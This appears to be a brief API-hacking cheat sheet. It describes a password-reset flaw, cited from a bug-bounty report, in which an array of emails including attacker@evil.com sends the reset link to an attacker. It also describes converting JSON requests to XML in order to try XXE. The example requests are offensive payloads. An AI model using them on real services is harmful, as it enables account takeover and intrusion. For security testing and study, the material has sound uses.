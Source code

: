 API
===

## Password reset
```
From: https://hackerone.com/reports/322985
The attacker was able to send a password reset link to an arbitrary email by sending an array of email addresses instead of a single email address.

POST https://hq.breadcrumb.com/api/v1/password_reset HTTP/1.1
with body like {"email_address":["admin@breadcrumb.com","attacker@evil.com"]}
```

## JSON to XML to XXE
When the API accept JSON type format payload, then you can try to send the same playload but as a XML file. You can download the Burp extension named "Content Type Converter".
> This extension helps you to modify the JSON request to XML, XML request to JSON and normal form request to JSON in order to play with request and responses.
> https://exploitstube.com/xxe-for-fun-and-profit-converting-json-request-to-xml.html

```
PUT /api/search HTTP/1.1
Host: test.com
...
Content-Type: application/json;charset=UTF-8

{
	"message": "xxx"
}
```

```
PUT /api/message HTTP/1.1
Host: test.com
...
Content-Type: application/xml;charset=UTF-8

<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<message>xxx</message>
```

If the request is accepted by the API, then you can try to attack with an XXE payload.
